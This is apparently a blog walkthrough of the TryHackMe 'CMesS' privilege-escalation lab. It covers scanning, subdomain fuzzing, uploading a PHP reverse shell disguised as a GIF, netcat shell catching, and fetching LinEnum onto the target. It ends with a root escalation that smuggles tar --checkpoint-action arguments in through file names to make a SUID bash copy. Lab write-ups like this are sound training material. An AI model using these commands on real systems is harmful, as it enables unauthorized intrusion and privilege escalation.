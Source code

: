 In this walkthrough, we'll go over a challenge (intermediate) level box called "CMesS". CMesS is one of the Linux Privesc boxes on [TryHackMe](https://tryhackme.com/room/cmess) and it was also one of the challenges from [TCM's Linux Privilege Escalation Course on Udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners/).

![CMesS](CMesS.png)
![CMesS IP](CMesS-IP.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.227.177 --open
```
![CMesS nmap](CMesS-nmap.png)

Let's also run the vulnerability scripts as well:
```bash
nmap --script vuln -p 22,80 10.10.227.177
```
![CMesS nmap vuln](CMesS-nmap-vuln.png)

However, nmap vuln scan didn't reveal much. Since port 80 is open and Apache httpd 2.4.18 is running, we can start a directory search:
```bash
dirsearch -u http://10.10.227.177 -e php,cgi,html,htm,bak,old,txt -r
```
![CMesS dirsearch-1](CMesS-dirsearch-1.png)
![CMesS dirsearch-2](CMesS-dirsearch-2.png)

After enumerating every folder, I realized that a valid set of credentials required to get into this application:

![Gila index](Gila-index.png)
![Gila admin](Gila-admin.png)

It looks like we have exhausted every option, on my end I also went through every Github exploit related to Apache 2.4.18 (Ubuntu). Next option is to look for subdomains:
```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hl 107 -H "Host: FUZZ.cmess.thm" -u http://cmess.thm -t 100
```
![CMesS wfuzz](CMesS-wfuzz.png)

As we can see there is another domain "dev", let's add that to our /etc/hosts file and try to visit the site:

![CMesS /etc/hosts](CMesS-hosts.png)

![CMesS dev domain](CMesS-dev-domain.png)

Now, we can try to use andre@cmess.thm email with the above (blurred) password. Once we login, we can browse to "Content" --> "Media" to see if we can upload a reverse shell:

![Gila admin console](Gila-admin-console.png)

We can upload a txt file to see if there is a file type restriction for upload and then intercept the traffic with BurpSuite:

![Gila burp suite intercept](Gila-burp-suite-intercept.png)

And it looks like, we can only upload media files. Let's think about it for a second, we can upload png, jpeg, jpg, or gif so how do we do that? Let's download PHP reverse shell from https://github.com/pentestmonkey/php-reverse-shell and we need to change the IP address, and port if you would like. Now, change the file extension to gif:
```bash
cp php-revshell.php php-revshell.php.gif
```
Upload it to the website, but intercept it with BurpSuite and add "GIF89a;" on the top of PHP code:

![Gila BurpSuite intercept](Gila-gif-intercept.png)

![Gila revshell](Gila-revshell.png)

Let's change the file name to "php-revshell.php" on the Gila site:

![Gila php revshell](Gila-revshell-php.png)

Turn off the proxy and start a netcat listener on our Kali machine ```nc -nlvp 1234``` Now, all we need to do this is visiting cmess.thm/assets/php-revshell.php If all goes well, we should receive a reverse shell back:

![Gila initial foothold](Gila-initial-foothold.png)

From this point on, I decided to use LinEnum from https://github.com/rebootuser/LinEnum. I always save Github scripts to my opt directory so I started a Python server and brought it over the compromised machine, but before let's upgrade our shell with python3:

![Which Python](CMesS-Which-Python.png)
```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
```
```bash
sudo python3 -m http.server 1111
```
And you can use wget on the target machine to download it. After downloading, make sure that it is executable ```chmod +x LinEnum.sh```. Now, we are ready to run LinEnum ```./LinEnum.sh```

If we look at the output, the first thing we see is a password.bak file which we have read right to it:

![LinEnum output](CMesS-LinEnum-output.png)

```cat /opt/.password.bak```

![Password Content](CMesS-Password-Content.png)

We know that port 22 is open which is SSH so let's try to ssh into the machine with andres password:
```bash
ssh andres@cmess.thm
```
![SSH into](CMesS-SSH-Into.png)

It worked and we can also see ```user.txt``` file which has the user flag. Last task remaining is to become root. I am again running LinEnum to see if I can find anything interesting that can be used to escalate privileges.

![LinEnum-Crontab](CMesS-LinEnum-Crontab.png)

![LinEnum-Sudo-Version](CMesS-Sudo-Version.png)

![LinEnum-SUID-Files](CMesS-SUID-Files.png)

I tried sudo version exploit and other SUID files and nothing worked for me. The last thing left is to use cron jobs to get a root shell. If we look at the last cron job, we see that it is run by root. It goes into ```/home/andre/backup``` and creates a backup file in ```/tmp```. Here is the script to escalate our privilege via the last cron job:
```bash
echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > runme.sh  --> this generates runme.sh file which copies /bin/bash to /tmp
touch /home/andre/--checkpoint=1 
touch /home/andre/--checkpoint-action=exec=sh\ runme.sh
```
After that we wait for about one minute and then check ```/tmp``` folder to see if bash has been copied:

![Bash](CMesS-bash.png)

Now, we can run the bash file with ```/tmp/bash -p```

![Root](CMesS-Root.png)

Woww, we have done it, we can grab the root file which has the root flag.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthrouhgs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)


